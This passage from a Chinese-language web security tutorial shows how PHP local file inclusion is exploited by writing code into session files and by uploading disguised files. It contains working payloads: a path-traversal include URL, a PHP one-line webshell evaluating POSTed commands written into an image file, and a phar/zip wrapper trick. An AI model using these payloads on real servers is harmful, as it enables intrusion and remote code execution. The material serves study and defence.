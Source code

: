 ```php
session_start();
$ctfs=$_GET['ctfs'];
$_SESSION['username']=$ctfs
```

此代码可以通过GET型的ctfs参数传入。PHP代码将会获取的值存入到Session中。攻击者可以利用ctfs参数将恶意代码写入到session文件中，然后在利用文件包含漏洞包含此session文件，向系统中传递恶意代码。

漏洞分析：

上面的代码满足Session文件包含的两个要求

- PHP代码将会获取ctfs变量的值存入到session中
- Session的默认 存储位置是/var/lib/php/session

访问URL：`http://www.xxx.com/xxx/session.php?ctfs=a` 会在/var/lib/php/session目录下降ctfs传入的值存储到session中，Session的文件名以sess_开头，后跟Sessionid，Sessionid可以通过开发者模式获取：单击右键——检查——存储——Cookie——PHPSESSID 就可以找到内容。假设通过开发者模式获取到的sessionid的值为hufh7hsdf392eurh4,所以session的文件名为`sess_hufh7hsdf392eurh4`，在/var/lib/
php/session目录下查看此文件，内容为：**username|s:4:"a"**

漏洞利用：

通过上面的分析，可以得知，向ctfs参数传入的内容会存储到session文件中。
如果存在本地文件包含漏洞，就可以通过ctfs写入恶意代码到Session文件当中去，然后通过文件包含漏洞执行getshell

例如：访问代码`http://www.xxx.com/xxx/session.php?ctfs=<?php phpinfo();?>`后，会在/var/lib/php/session目录下降ctfs的值写入session文件
session文件的内容为：`username|s:18:"<?php phpinfo();?>"`.

**攻击步骤**

- 将恶意代码写入session文件
- 攻击者可以通过PHPinfo或者猜测到session存放的位置
- 通过开发者模式可以获得文件名称
- 通过本地文件包含漏洞可以解析session文件达到攻击的目的

比如：`http://www.abc.com/xxx/file.php?file=../../var/lib/php/session/sess_7sdfysdfywy9323cew2`



#### 7、配合上传漏洞Getshell

**普通上传**

```php
将一句话木马插入到图片文件中
echo '<?php @eval($_POST['cmd']);?>' > 1.jpg
然后上传1.jpg到目标服务器上

包含1.jpg图片Getshell
?file=/xxx/xxx/xxx/1.jpg
```

**特殊姿势：配合phar伪协议**

```php
将一句话木马保存到shell.php文件中，然后使用zip命令压缩成1.jpg
echo '<?php @eval($_POST['cmd']);?>' > shell.php
zip 1.jpg shell.php
然后上传1.jpg到目标服务器上

配合phar伪协议包含1.zip压缩包中的shell.php文件Getshell
?phar://1.jpg/shell.php
```
